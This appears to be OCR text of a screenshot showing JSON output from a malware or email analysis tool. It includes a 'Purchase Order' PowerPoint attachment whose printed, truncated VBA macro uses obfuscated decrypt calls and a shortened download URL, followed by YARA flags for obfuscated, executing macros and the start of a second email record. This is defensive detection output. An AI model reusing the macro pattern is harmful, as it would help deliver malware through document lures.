 ``` json
            "sha1": "ff4da8a90127f5a6feec7af650fa7014050d25c2"
        },
        {
            "type": "ppt",
            "filename": "Purchase Order 19122020.ppt",
            "filesize": 130048,
            "md5": "9e6f2637079a311344f3cf2546de6a88",
            "sha1": "ff4da8a90127f5a6feec7af650fa7014050d25c2"
        }
    ],
    "vba": [
        {
            "size": 23358,
            "code": "Attribute VB_Name = \"Module1\"\r\nSub Auto_CloSe()\r\n\r\nDim myChrysler As String\r\n\r\nDim myFord As String\r\n\r\nDim SistersRangeRover As String\r\n\r\nmyChrysler = decrypt(\"p\", \"3\") + decrypt(\"|\", \"9\") + decrypt(\"o\", \"7\") + decrypt(\"}\", \"9\") + decrypt(\"c\", \"2\")\r\n\r\nSistersRangeRover = \" http://%999%999@j.mp/asdnabsdjncjnkk\"\r\n\r\n
            ....
            "
        }
    ],
    "signatures": [
        {
            "name": "yara_detected",
            "description": "detected from yara rule",
            "severity": 9,
            "marks": [
                {
                    "type": "vba",
                    "tag": "obfuscate_macros",
                    "description": "obfuscate macros",
                    "severity": 6
                },
                {
                    "type": "vba",
                    "tag": "exec_macros",
                    "description": "exec macros",
                    "severity": 9
                }
            ],
            "markcount": 2
        }
    ]
}
# 示例3
{
    "headers": [
        {
            "From": [
                {
                    "name": "\u7231\u83f2\u7684\u86df\u9f99",
                    "addr": "653518994@qq.com"
                }
            ],
            "To": [],
            "Subject": "\u7231\u83f2\u7684\u86df\u9f99 \u5bc4\u6765\u7684\u8d3a\u5361",
            "Date": "2008-04-26 11:09:07 UTC+08:00",
            "X-Originating-IP": []
        }
    ],
    "body": [
        {
            "type": "text",
```